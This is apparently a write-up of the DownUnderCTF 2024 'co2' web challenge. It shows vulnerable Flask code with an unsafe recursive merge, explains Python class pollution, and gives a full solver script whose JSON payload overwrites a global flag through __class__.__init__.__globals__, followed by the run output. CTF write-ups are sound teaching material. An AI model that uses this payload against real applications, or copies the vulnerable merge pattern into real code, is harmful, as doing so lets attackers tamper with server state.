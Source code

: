 # DownUnderCTF 2024
## Web - co2 - easy
![Alt Text](./DownUnderCTF_Pic.png)

## First look
We were given a web application made by a group of students and we have been "hired" to test it how safe actually it is.
Started by looking at the source code and we saw in the routes.py a flag variable, so we knew that we were on the right path to look for. 

Some routes that we might want to check them up were:
```python
@app.route("/save_feedback", methods=["POST"])
@login_required
def save_feedback():
    data = json.loads(request.data)
    feedback = Feedback()
    merge(data, feedback)
    save_feedback_to_disk(feedback)
    return jsonify({"success": "true"}), 200


@app.route("/get_flag")
@login_required
def get_flag():
    if flag == "true":
        return "DUCTF{NOT_THE_REAL_FLAG}"
    else:
        return "Nope"
```

In the utils.py: 
```python
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```

We can see that in the get_flag function, it does a boolean check too see if the `flag == "true"`
and if it does it returns the flag
But how can we change it to true?
The data that goes to merge can overwrite values cause of bad implementation, so we can exploit that vulnerability to change the value of the flag value. 
This vulnerability called **Python Prototype Pollution**. 
You can read more about this attack from hacktricks that helped me to complete this challenge.
https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution


## Exploit
In the CTF I did manually with burp and just intercept the request and inject it there the payload, but after the CTF ends I wrote a solver script with the steps of the exploit to automate it to the maxinum.
Here it is:

```python
from requests import Session

# setting up the paths of the url
base_url = "https://web-co2-19ca2661836e6d89.2024.ductf.dev"
register_url = base_url + "/register"
login_url = base_url + "/login"
save_feedback_url = base_url + "/save_feedback"
get_flag_url = base_url + "/get_flag"

# prototype pollution payload
payload = {

    "title": "test",
    "content": "test",
    "rating": "1",
    "referred": "vein",
    "__class__": {
        "__init__": {
            "__globals__": {
                "flag": "true"
            }
        }
    }
}

register_user = {
    "username": "vein",
    "password": "vein"
}

with Session() as session:
    # step 1: register a user
    r = session.post(register_url, data=register_user)
    print("Register status:", r.status_code)

    # step 2: login
    login_user = register_user
    r = session.post(login_url, data=login_user)
    print("Login status:", r.status_code)

    # just grab the cookie for the session
    cookies = session.cookies
    print(f"Cookies after login: {cookies}")

    # step 3: submit the payload
    r = session.post(save_feedback_url, json=payload)
    print("Submit payload status:", r.status_code)

    # step 4: get the flag
    r = session.get(get_flag_url)
    print("Get flag status:", r.status_code)
    print("Get flag response:", r.text)
```

## Take the flag
And we got the flag!
```shell
┌──(vein㉿vein)-[~/sec/DownUnderCTF_2024]
└─$ python3 exploit.py
Register status: 200
Login status: 200
Cookies after login: <RequestsCookieJar[<Cookie session=.eJwlzjEOwjAMheG7eGZw4thxehkU17ZgbemEuDtB6G1v-PS_4Z5HnA_YXscVN7g_HTZgqTnqDCdjbSE7tkamLlP3IULdUqK6Ik-nijRQy8ywQZGiVazWZuzaWXpbm4iFCQeHD7HIpNZ07336DyjL6H09mssOCYYVcp1x_GsKfL5_2y5G.Zo2SnA.V-bnliYnsW1jW7U8ZJ15g11Lnq4 for web-co2-19ca2661836e6d89.2024.ductf.dev/>]>
Submit payload status: 200
Get flag status: 200
Get flag response: DUCTF{_cl455_p0lluti0n_ftw_}
```
